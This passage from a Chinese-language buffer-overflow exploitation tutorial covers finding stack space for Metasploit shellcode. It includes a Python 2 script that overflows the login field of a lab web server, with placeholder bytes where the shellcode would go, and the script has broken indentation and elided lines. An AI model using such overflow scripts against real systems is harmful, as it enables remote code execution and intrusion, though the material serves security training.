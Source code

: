 ![image-20200414105237979](assets/5.BOF.assets/image-20200414105237979.png)

### 为我们的shellcode找一个空间

> Shellcode是汇编指令的集合，这些汇编指令在执行时会执行攻击者所需的操作。 这通常是打开反向或绑定外壳，但也可能包含更复杂的操作

我们将使用Metasploit框架生成我们的shellcode有效负载。 回顾我们在最后一次崩溃之后的寄存器，我们注意到ESP寄存器指向缓冲区01307464,后面被C填充了

![image-20200414105658028](assets/5.BOF.assets/image-20200414105658028.png)

根据经验，我们知道标准反向外壳有效负载需要大约**350-400字节**的空间。 但是，上面的清单清楚地表明，缓冲区中只有**16个C**，这对于我们的Shellcode而言几乎没有足够的空间。

根据应用程序和漏洞类型的不同，输入内容的长度可能会有限制。 在某些情况下，增加缓冲区的长度可能会导致完全不同的崩溃，因为较大的缓冲区会覆盖目标应用程序使用的堆栈上的其他数据

 解决此问题的最简单方法是尝试将漏洞利用程序中的缓冲区长度    **从800字节增加到1500字节**  ，并查看这是否为我们的shellcode留出足够的空间而不会破坏缓冲区溢出条件或更改崩溃的性质,对于此更新，我们将添加“ D”字符作为Shellcode的占位符

```python
#!/usr/bin/python
import socket 

try:
	print "\nSending evil buffer..." 
    
	filler = "A" * 780
    eip = "B" * 4
    offset = "C" * 4
    buffer = "D" * (1500 - len(filler) - len(eip) - len(offset)) #1500-780-4-4=712
 	inputBuffer = filler + eip + offset + buffer
    
    content = "username=" + inputBuffer + "&password=A"
	buffer = "POST /login HTTP/1.1\r\n"
	........
	........
	buffer += "\r\n"
	buffer += content 
#发送包 
	s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
	s.connect(("10.11.0.22", 80))
	s.send(buffer)
	s.close()
	print "\nDone!" 
except:
    print "\nCould not connect!"
    sys.exit()
```
